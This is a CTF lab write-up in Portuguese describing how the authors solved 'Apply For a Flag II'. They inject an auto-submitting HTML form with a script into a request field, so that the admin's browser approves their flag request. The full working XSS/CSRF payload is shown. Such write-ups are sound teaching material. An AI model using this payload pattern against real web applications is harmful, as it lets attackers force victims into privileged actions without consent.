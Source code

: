 # CTF #6 - Apply For a Flag II

Primeiramente, notamos que, quando clicamos no botão **submit**, no site `http://ctf-fsi.fe.up.pt:5004/request`, e no botão **page**, somos redirecionados para o site `http://ctf-fsi.fe.up.pt:5005/request/84da570ff0bfd81b1d9adf6064053920675bf1e3`, em que **84da570ff0bfd81b1d9adf6064053920675bf1e3** é o **id** do pedido, que possui 2 botões que representam as 2 escolhas que o admin pode ter em relação ao pedido da flag: **Give the flag** e **Mark as read**.<br>

Analisando o **html** da página notamos que o botão **Give the flag** está envolvido num **forms** da seguinte forma:

```
<form method="POST" action="/request/84da570ff0bfd81b1d9adf6064053920675bf1e3/approve" role="form">
    <div class="submit">       
        <input type="submit" id="giveflag" value="Give the flag" disabled>       
    </div>
</form>
```

Portanto, para construirmos o nosso ataque, fizemos o seguinte:

- Retiramos a flag **disabled** do input que tem o botão
- Adicionamos `http://ctf-fsi.fe.up.pt:5005` ao início do link da action do forms
- Criamos um script que vai clicar no botão com o **id** `giveflag` e submeter o forms logo após o código correr

No final, o forms que submetemos no input `Beg for a flag` foi o seguinte:

```
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/84da570ff0bfd81b1d9adf6064053920675bf1e3/approve" role="form">     
	<div class="submit">                  
		<input type="submit" id="giveflag" value="Give the flag">
	</div>  
	<script> 
        document.getElementById("giveflag").click();
    </script>
</form>
```

Por fim, para concluir o nosso ataque, tivemos que desativar o javascript, através das definições do browser, para impedir que fossemos redirecionados.

Após submeter o forms alterado no input `Beg for a flag` e desativado o javascript, basta dar refresh à página que a flag estará presente onde costuma estar escrito **Your request hasn't been evaluated yet!**.
